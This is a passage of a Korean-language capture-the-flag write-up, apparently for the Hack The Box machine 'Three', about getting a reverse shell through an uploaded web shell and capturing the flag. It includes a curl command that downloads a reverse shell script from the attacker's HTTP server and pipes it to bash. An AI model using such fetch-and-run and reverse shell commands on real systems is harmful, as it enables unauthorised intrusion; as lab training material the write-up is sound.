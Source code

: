 
<figure style="text-align:center;">
    <img src="{{ '/assets/images/HTB/three/15_포트오픈.png' | relative_url }}" style="width:300px;">
    <figcaption>포트 오픈</figcaption>
</figure>
<br>
공격자의 IP 주소로 설정하고 임의의 포트번호(1234)로 접속해오도록 포트를 열어두었다.
<br>
<br>
<figure style="text-align:center;">
    <img src="{{ '/assets/images/HTB/three/16_리버스쉘업로드.png' | relative_url }}" style="width:600px;">
    <figcaption>리버스 쉘 업로드</figcaption>
</figure>
<br>
웹 서버에 업로드 해놓은 웹 쉘로 나의 로컬 HTTP 서버 안의 파일을 다운받아야 하기 때문에 /var/www/html 디렉터리로 복사한 후 실행 권한까지 주었다.

<br>
<figure style="text-align:center;">
    <img src="{{ '/assets/images/HTB/three/17_http서버오픈.png' | relative_url }}" style="width:600px;">
    <figcaption>http 서버 오픈</figcaption>
</figure>
<br>

<br>
<figure style="text-align:center;">
    <img src="{{ '/assets/images/HTB/three/18_리버스쉘실행.png' | relative_url }}" style="width:600px;">
    <figcaption>리버스 쉘 다운&실행</figcaption>
</figure>
<br>

> curl 10.10.15.45:8000/revshell.sh\|bash<br>

공격자의 HTTP 서버에 접속해서 revshell.sh 파일을 다운받고 바로 실행한다.

그럼 전에 열어둔 1234번 포트로 리버스 쉘 연결이 이루어지고 공격자는 쉘 세션을 획득할 수 있게 된다.

<br>
<figure style="text-align:center;">
    <img src="{{ '/assets/images/HTB/three/19_리버스쉘실행2.png' | relative_url }}" style="width:600px;">
    <figcaption>리버스 쉘 세션 획득</figcaption>
</figure>
<br>
<figure style="text-align:center;">
    <img src="{{ '/assets/images/HTB/three/20_flag.png' | relative_url }}" style="width:500px;">
    <figcaption>flag 획득</figcaption>
</figure>
<br>
이로써 리버스 쉘을 이용한 쉘 세션 획득, 이어서 flag 획득에 성공했다.
